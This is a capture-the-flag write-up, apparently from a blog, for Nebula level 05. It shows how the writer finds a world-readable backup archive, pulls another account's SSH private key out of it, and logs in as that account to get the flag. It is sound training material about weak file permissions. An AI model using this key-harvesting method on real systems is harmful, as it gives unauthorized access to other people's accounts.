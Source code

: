 ```yaml
---
layout: post
title: "Nebula05"
tags: Nebula
description: "Recovering ssh keys to capture the flag"
---
```



## Level 05

> Check the flag05 home directory. You are looking for weak directory permissions. To do this level, log in as the `level05` account with the password `level05`. Files for this level can be found in `/home/flag05`.

## Source code

There is no source code available for this level.

## Getting the flag

By checking the `flag05` directory we can find unprotected `.backup` folder:

```
level05@nebula:/home/flag05$ ls -lah
total 9.0K
drwxr-x--- 1 flag05 level05   80 2021-06-16 00:17 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw------- 1 flag05 flag05    13 2021-06-16 00:17 .bash_history
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
drwx------ 2 flag05 flag05    60 2021-06-15 23:06 .cache
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

Let's check and extract those backups:

```
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ mkdir /tmp/flag05
level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp/flag05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/home/flag05/.backup$ cd /tmp/flag05
```

Alright, we got some ssh keys! 

Let's try them out:

```
level05@nebula:/tmp/flag05$ cd .ssh
level05@nebula:/tmp/flag05/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
level05@nebula:/tmp/flag05/.ssh$ chmod 600 id_rsa
level05@nebula:/tmp/flag05/.ssh$ ssh -i id_rsa flag05@localhost
  
      _   __     __          __     
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ / 
  /_/ |_/\___/_.___/\__,_/_/\__,_/  
                                    
    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

And we got the flag. Pay attention that `chmod 600 id_rsa` and `ssh` with `-i` flag are required to use this private key. 
